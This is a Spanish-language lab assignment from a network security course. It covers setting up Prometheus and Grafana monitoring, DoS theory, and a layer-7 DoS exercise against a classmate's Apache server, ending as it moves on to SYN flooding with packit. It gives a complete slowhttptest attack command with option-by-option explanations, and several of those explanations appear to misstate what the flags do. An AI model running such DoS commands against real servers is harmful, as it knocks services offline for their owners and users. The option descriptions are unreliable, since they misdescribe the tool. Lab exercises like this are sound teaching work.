 ##### k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas. 

##### l) Monitorizamos nuestra infraestructura: 
1. Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux. 
2. Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus. 
3. Importe vía grafana el dashboard 1860. 
4. En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas. 

##### m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direct attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?. 

##### n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección? 

Instalamos la herramienta slowhttptest:

```shell
apt install slowhttptest
```

Y ejecutamos un comando con una estructura similar al siguiente:

```shell
slowhttptest -c 1000 -g -X -o slow-file -r 200 -w 512 -y 1024 -n 5 -z 32 -K 3 -u http://IPcompañero -p 3
```

Expliquemos las opciones del comando:

**-c 1000** -> Establece el número de conexiones que se van a realizar, en este caso 1000
**-g** -> Activa la generación de gráficos
**-X** -> Indica el tipo de peticiones HTTP que se van a usar para el ataque. Las opciones son:
1. **-X** -> para usar peticiones GET
2. **-H** -> para usar peticiones HEAD
3. **-B** -> para usar peticiones POST
**-o slow-file** -> para indicar que los datos se guardarán en el archivo indicado
**-r 200** -> Indica el número de conexiones que se establecerán por segundo (200 en este caso)
**-w 512 -y 1024** -> ventana de la petición inicial + tamaño de los datos posteriores
**-n 5** -> intervalo en segundos de lectura de los datos almacenados en el buffer
**-z 32** -> tiempo en segundos para que se cierren las conexiones en caso de inactividad
**-u http:// IPcompañero** -> Dirección del servidor víctima
**-p 3** -> Intervalo en segundos entre peticiones HTTP

Otra herramienta útil es packit, para realizar floodeos sync:
